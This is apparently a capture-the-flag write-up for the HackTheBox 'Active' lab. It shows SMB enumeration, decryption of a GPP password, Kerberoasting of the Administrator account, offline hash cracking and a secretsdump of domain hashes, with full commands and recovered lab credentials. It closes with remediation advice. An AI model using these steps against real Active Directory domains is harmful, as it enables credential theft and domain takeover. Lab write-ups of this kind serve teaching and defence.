

# ACTIVE



This write-up covers the exploitation of the Active machine on HackTheBox. The box presents an Active Directory environment vulnerable to Group Policy Preference (GPP) abuse and Kerberoasting, leading to domain administrator access. Real-world techniques such as SMB enumeration, GPP credential decryption, and offline Kerberos ticket cracking are utilized to compromise the environment.

## Reconnaissance and Enumeration

Initial Nmap scans revealed a classic Active Directory setup on Windows Server 2008 R2 SP1, with ports for SMB, LDAP, DNS, Kerberos, and RPC open.

```sh
❯ sudo nmap -sC -sV -Pn -T4 -oA nmap_results 10.129.119.21
Command executed at: 2025-03-15 15:03:40
...
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Active Directory LDAP (Domain: active.htb)
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Active Directory LDAP (Domain: active.htb)
...
```

### **Did You Know? - Active Directory Ports**

> **Active Directory** commonly exposes Kerberos (88), LDAP (389/3268), and SMB (445) services. These allow for authentication, directory queries, and file sharing. Misconfigurations in any of these can expose sensitive data or allow unauthorized access.

SMB enumeration with anonymous access revealed multiple shares, including Replication and Users.

```sh
❯ smbclient -L //10.129.119.21/ -N
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Replication     Disk      
SYSVOL          Disk      Logon server share
Users           Disk      
```

Access to Replication was allowed anonymously, leading to the discovery of Groups.xml within GPP folders.

## Analysis and Exploitation

The Groups.xml file contained a cpassword field, indicating credentials stored via Group Policy Preferences.

```xml
<Properties action="U" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf..." userName="active.htb\SVC_TGS" />
```

### **Did You Know? - GPP Credential Vulnerability**

> Older Windows systems stored GPP passwords in XML files, encrypted with a static AES key. Tools like **gpp-decrypt** can easily recover plaintext passwords.

Using gpp-decrypt, the password was revealed:

```sh
❯ gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf...'
GPPstillStandingStrong2k18
```

```txt
Credentials obtained: SVC_TGS:GPPstillStandingStrong2k18
```

Authenticated SMB access to Users share allowed retrieval of user.txt.

```sh
smb: \SVC_TGS\Desktop\> get user.txt
9202937e283f7da718111d451c77f86d
```

## Privilege Escalation via Kerberoasting

RPC enumeration confirmed limited domain users, and CrackMapExec revealed no account lockout policy, allowing quick and safe password cracking attempts.

**Kerberoasting** was performed to extract a TGS ticket for the Administrator account:

```sh
❯ sudo impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.119.21 -request
...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$fdeaaefc...
```

The hash was cracked offline using Hashcat because the password was weak enough to appear in common wordlists used in dictionary attacks:

```sh
❯ hashcat -m 13100 administrator_hash.krb rockyou.txt --force
...
Recovered........: 1/1 (100.00%)
Password.........: Ticketmaster1968
```

```txt
Administrator credentials: Administrator:Ticketmaster1968
```

## Post-Exploitation

Using **secretsdump**, all NTLM hashes and domain secrets were extracted:

```sh
❯ sudo impacket-secretsdump active.htb/Administrator:'Ticketmaster1968'@10.129.119.21
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c15eb37006fb74c21a5d1e2144b726e:::
...
```

SMB access as Administrator revealed root.txt on the desktop:

```sh
smb: \Administrator\Desktop\> get root.txt
b34047xxxxxxxxxxxxx73db50
```


## Findings and Remediation

### Findings

- **GPP Password Exposure:** Credentials for SVC_TGS were stored in plaintext within a Group Policy Preferences XML file.

- **Weak Password Practices:** Administrator password was crackable using the rockyou.txt wordlist.

- **Anonymous SMB Access:** Initial SMB access was possible without credentials.

### Remediation

- **Remove GPP Passwords:** Upgrade systems to prevent GPP password storage. Remove any residual XML files.

- **Enforce Strong Passwords:** Use complex, unique passwords and enforce length and complexity policies.

- **Restrict SMB Access:** Disable anonymous access and limit share permissions.

## Lessons Learned

This scenario reinforces the risks of legacy system configurations and insecure credential storage practices. GPP credential exposure is a known issue on older Windows environments, and Kerberoasting remains a powerful method for privilege escalation. Preventative measures, including strict access control and password policies, are essential to defend against such attacks.

## Resources

- [HackTheBox - Active CTF](https://app.hackthebox.com/machines/148)
- [GPP Password Decryption](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/unsecured-credentials/group-policy-preferences/gpp-password)

---

[⬅ Back to Home](/CTF-Reports/)
